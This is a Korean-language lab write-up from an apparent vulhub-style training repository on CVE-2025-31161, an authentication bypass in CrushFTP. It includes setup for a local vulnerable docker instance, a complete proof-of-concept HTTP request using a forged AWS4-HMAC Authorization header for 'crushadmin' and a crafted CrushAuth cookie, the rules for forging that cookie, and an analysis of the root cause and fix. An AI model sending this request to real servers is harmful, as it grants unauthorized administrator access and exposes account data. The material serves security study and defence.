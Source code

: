 # CVE-2025-31161 | CrushFTP Authentication Bypass
---
> 화이트햇 스쿨 3기 (19반) - [김휘성 (@hwisungkk)](https://github.com/hwisungkk) / [Blog Link](https://hwisungkk.github.io/)<br>
> [상세 취약점 분석](https://abounding-king-077.notion.site/CVE-2025-31161-1e289d4224478074b76bdf15b4a30590) - notion
>
> https://github.com/hwisungkk/kr-vulhub/tree/main/CrushFTP/CVE-2025-31161
> https://github.com/gunh0/kr-vulhub/pull/273 

<br>

### 요약
- 다중 프로토콜, 다중 플랫폼을 지원하는 파일 전송 서버인 CrushFTP AWS S3 인증 과정의 헤더 처리 로직 결함으로 인한 인증 우회 취약점입니다. <br>

- 알려진 사용자명을 이용해 공격자는 인증 없이 관리자 권한 획득이 가능해서 원격 코드 실행까지 가능합니다.
  
- 패스워드 검증 과정에서 문제가 발생해 검증이 생략됩니다.

- CVE-2025-2825로 발급된 후 reject되고 CVE-2025-31161로 부여되었습니다.

### target
- CrushFTP 11.0.0 ≤ 11.3.0
- CrushFTP 10.0.0 ≤ 10.8.3


## 환경 구성 및 실행
- [CrushFTP 10.8.0_4 version](https://github.com/NetLah/docker-crushftp/tree/main) 해당 repo에서 취약점이 발생하는 CrushFTP 버전 사용.

- `docker run -p 21:21 -p 443:443 -p 20000-20100:20000-20100 -p 2222:2222 -p 8080:8080 -p 9090:9090 -v ~/crushftp-data:/var/opt/crushftp --name crushftp netlah/crushftp:latest` 터미널에서 실행해서 127.0.0.1:8080 에서 CrushFTP 서버를 실행

- burpsuit로 PoC message를 보내 계정 인증 우회 가능. 계정 정보 출력으로 관리자 권한 확인

## Poc message
```
GET /WebInterface/function/?command=getUserList&serverGroup=MainUsers&c2f=1111 HTTP/1.1
Host: 127.0.0.1:8080
Content-Length: 0
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: */*
DNT: 1
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8081/WebInterface/UserManager/index.html
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: CrushAuth=1743113839553_e96EZ70ONL6xAd1DAJhXMZYMn1111
Authorization: AWS4-HMAC-SHA256 Credential=crushadmin/
Connection: keep-alive

```
```
1. 가짜 AWS S3 인증 헤더와 특수하게 포맷된 CrushAuth 쿠키를 사용하여 악성 HTTP 요청 작성 
2. "crushadmin"과 같은 알려진 기본 사용자 이름을 타겟팅 (~ 문자 제외하고)
3. CrushFTP 웹 인터페이스에 요청 제출
```
- Authorization 헤더는 "AWS4-HMAC"로 시작<br>
- CrushAuth는 유효할 필요없이 13개 숫자 + 언더바 + 30자 문자열<br>
- 마지막 4글자가 c2f와 같다면 사용자 목록을 서버로부터 응답받을 수 있습니다.

## 결과
**서버**
![normal](./assets/open_server.png)

![normal](./assets/open_server2.png)

127.0.0.1:8080에 띄운 후<br>
burpsuite로 poc message를 보내면<br>

![normal](./assets/poc.png)

**계정 정보 탈취 성공**

## 정리
```c
boolean lookup_user_pass = true;  // Default to true - this is crucial!
```
코드처럼 true로 권한을 주고, 뒤의 흐름에서 어떤 조건(해당 취약점에서는 '~'가 있는지)으로 false로 바꾸는 흐름은 위험합니다. 조건을 우회하기만 하면 변수의 값이 true로 남고, 악용할 수 있기 때문입니다.<br>

현재는 방어 방법으로 보안을 위한 새로운 매개변수를 만들어서 false 값을 준 다음 lookup_user_pass가 아닌 매개변수로 검사를 해서 로직을 나눴습니다.
